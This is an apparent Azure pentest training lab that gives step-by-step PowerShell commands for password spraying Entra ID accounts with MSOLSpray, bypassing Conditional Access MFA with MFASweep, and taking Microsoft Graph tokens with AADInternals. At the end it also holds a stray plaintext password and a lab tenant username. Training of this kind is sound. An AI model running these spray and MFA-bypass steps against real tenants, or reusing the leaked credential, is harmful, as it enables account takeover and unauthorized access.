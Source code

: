 ### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the Exercise files directory to the MSOLSpray directory and review the contents
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$HOME\Desktop\ExerciseFiles\Modules\03\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"

Get-Content .\users.txt
```

3. Run MSOLSpray
* Replace the SPRAY_PASSWORD_FROM_THE_LAB_INFO with the password from the LabXX-Info file.
```
Invoke-MSOLSpray -UserList .\users.txt -Password "SPRAY_PASSWORD_FROM_THE_LAB_INFO" -Verbose -OutFile .\sprayresults.txt
```
** Note the non-existent users and the users with MFA configured

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
Get-Content .\sprayresults.txt
```

5. Open the Entra ID portal at **`https://entra.microsoft.com/`** in an InPrivate or Incognito window. Sign in with one of the matched credentials from the sprayresults.txt file.
* You should now be able to access the Entra ID portal as the user (Identity → Users → All users). Also, you should be able to review the information of other users in the tenant! (This is the default behavior).



## Bypassing conditional MFA with MFA Sweep
* In this exercise, we will use MFA sweeep to identify options to bypass conditional access MFA.
* **NOTE**: Use Alexander's account for this exercise

1. In your pentest VM, open the PowerShell console, switch directories to your user's directory, and clone the MFASweep GitHub repository using the following commands:
```
cd C:\Users\$env:USERNAME\
git clone https://github.com/dafthack/MFASweep.git
```

2. Import the MFASweep PowerShell module using the following commands:
```
cd .\MFASweep\
Import-Module .\MFASweep.ps1
```

3. Run MFASweep against any user accounts that you have compromised using the following commands. You should see a success message for any accounts that allow Conditional Access policy bypasses:

```
Invoke-MFASweep -Username "USER_WITH_MFA" -Password "SPRAY_PASSWORD_FROM_THE_LAB_INFO"
```

4. When prompted to perform ADFS checks, enter **`Y`** and press **`Enter`**.

5. When prompted about multiple login attempts, enter **`Y`** and press **`Enter`**.

6. Notice that the result showed that single factor authentication could be used for the Microsoft Graph API. This means that the user account can be used to bypass Conditional Access policies.

7. Use AADInternals to obtain an access token for Microsoft Graph API using the following commands:
* The operation should be successful
```
Import-Module AADInternals

$username = "ALEXANDER'S_USERNAME"
$password = "SPRAY_PASSWORD_FROM_THE_LAB_INFO" | ConvertTo-SecureString -AsPlainText -Force

$cred = New-Object System.Management.Automation.PSCredential($username, $password)

Get-AADIntAccessTokenForMSGraph -Credentials $cred -SaveToCache
```

8. View the cached token using the following command:
```
Get-AADIntCache
```

9. Run some recon commands:
```
Get-AADIntSubscriptions
Get-AADIntUsers | Select UserPrincipalName,ObjectId
```





W8&x2N78T0

Invoke-MFASweep -Username "James.Wilson@azpenteststudent22outlook.onmicrosoft.com" -Password "W8&x2N78T0"